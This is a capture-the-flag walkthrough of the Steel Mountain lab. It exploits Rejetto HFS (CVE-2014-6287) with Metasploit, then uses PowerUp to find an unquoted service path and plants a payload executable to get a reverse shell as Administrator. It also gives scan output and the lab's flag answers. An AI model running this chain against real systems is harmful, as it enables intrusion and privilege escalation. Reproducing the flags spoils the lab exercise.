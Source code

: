# Information

Name: Steel Mountain

Difficulty: Easy

Description: Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.

## Introduction

Deploy the machine.

**Who is the employee of the month?**

bill harper

![image](https://user-images.githubusercontent.com/43668197/140385630-4de1afad-0d8d-438f-a57c-d3dc5537da09.png)

![image](https://user-images.githubusercontent.com/43668197/140385676-2cb1f41d-e012-4160-8d03-57cfcc2d09ce.png)

Viewing the page source shows the image saved as the employees name. Also giving us a possible username.

## Initial Access

```
└─# nmap -sV -sC 10.10.121.200
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 12:56 EDT
Nmap scan report for 10.10.121.200
Host is up (0.22s latency).
Not shown: 988 closed tcp ports (reset)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2021-11-03T16:53:51
|_Not valid after:  2022-05-05T16:53:51
| rdp-ntlm-info: 
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2021-11-04T16:59:39+00:00
|_ssl-date: 2021-11-04T16:59:43+00:00; +1s from scanner time.
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2021-11-04T16:59:38
|_  start_date: 2021-11-04T16:53:42
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:03:42:f1:26:f7 (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 217.93 seconds
```

**Scan the machine with nmap. What is the other port running a web server on?**

8080

**Take a look at the other web server. What file server is running?**

rejetto http file server

![image](https://user-images.githubusercontent.com/43668197/140386842-1c4317e1-102d-42de-b366-b3c08a561799.png)

![image](https://user-images.githubusercontent.com/43668197/140386895-048a6a18-ebea-4062-90f6-409d2786bcf0.png)

![image](https://user-images.githubusercontent.com/43668197/140386959-cf6a0c2a-bc38-409b-a4d7-0cb2c7cb7566.png)


**What is the CVE number to exploit this file server?**

2014-6287

![image](https://user-images.githubusercontent.com/43668197/140387240-a7396d53-5576-4200-8d03-eab3d5c64ae8.png)

**Use Metasploit to get an initial shell. What is the user flag?**

b04763b6fcf51fcd7c13abc7db4fd365

![image](https://user-images.githubusercontent.com/43668197/140387530-82adece1-2840-4e8f-8605-dcf5e994e4c9.png)

Set rhost targetip, set rport 8080, set srvport 9987, set lhost tun0, run.

It took a couple attempts to get the meterpreter prompt.

```
meterpreter > shell
Process 976 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>cd C:\Users\bill\Desktop
cd C:\Users\bill\Desktop

C:\Users\bill\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users\bill\Desktop

09/27/2019  09:08 AM    <DIR>          .
09/27/2019  09:08 AM    <DIR>          ..
09/27/2019  05:42 AM                70 user.txt
               1 File(s)             70 bytes
               2 Dir(s)  44,155,105,280 bytes free

C:\Users\bill\Desktop>type user.txt
type user.txt
b04763b6fcf51fcd7c13abc7db4fd365
```

## Privilege Escalation

```
meterpreter > upload /home/kali/Downloads/PowerUp.ps1
[*] uploading  : /home/kali/Downloads/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 586.50 KiB of 586.50 KiB (100.0%): /home/kali/Downloads/PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : /home/kali/Downloads/PowerUp.ps1 -> PowerUp.ps1
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > 
```

**Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?**

AdvancedSystemCareService9

```
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```

![image](https://user-images.githubusercontent.com/43668197/140391310-66dc7487-731a-4fcb-b844-80c122ae414c.png)


```
Listing: C:\Program Files (x86)\IObit
=====================================

Mode             Size   Type  Last modified              Name
----             ----   ----  -------------              ----
40777/rwxrwxrwx  32768  dir   2019-09-26 11:17:30 -0400  Advanced SystemCare
40777/rwxrwxrwx  16384  dir   2019-09-26 11:17:48 -0400  IObit Uninstaller
40777/rwxrwxrwx  4096   dir   2019-09-26 11:17:46 -0400  LiveUpdate

meterpreter > upload Advanced.exe
[*] uploading  : /home/kali/Downloads/Advanced.exe -> Advanced.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/kali/Downloads/Advanced.exe -> Advanced.exe
[*] uploaded   : /home/kali/Downloads/Advanced.exe -> Advanced.exe
```
```
meterpreter > powershell_shell
PS > Stop-Service AdvancedSystemCareService9
PS > Start-Service AdvancedSystemCareService9
```

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 1234
lport => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.13.29.43:1234 
[*] Command shell session 1 opened (10.13.29.43:1234 -> 10.10.121.200:49280 ) at 2021-11-04 14:05:14 -0400


Shell Banner:
Microsoft Windows [Version 6.3.9600]
-----
          

C:\Windows\system32>cd C:\Users\Administrator\Desktop
```

```
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users\Administrator\Desktop

10/12/2020  12:05 PM    <DIR>          .
10/12/2020  12:05 PM    <DIR>          ..
10/12/2020  12:05 PM             1,528 activation.ps1
09/27/2019  05:41 AM                32 root.txt
               2 File(s)          1,560 bytes
               2 Dir(s)  44,153,552,896 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
9af5f314f57607c00fd09803a587db80
```

**What is the root flag?**

9af5f314f57607c00fd09803a587db80

## Access and Escalation Without Metasploit

**What powershell -c command could we run to manually find out the service name?**

powershell -c Get-Service

![image](https://user-images.githubusercontent.com/43668197/140397700-6b4290f1-af7b-4bd7-b564-21c49e21ea4c.png)


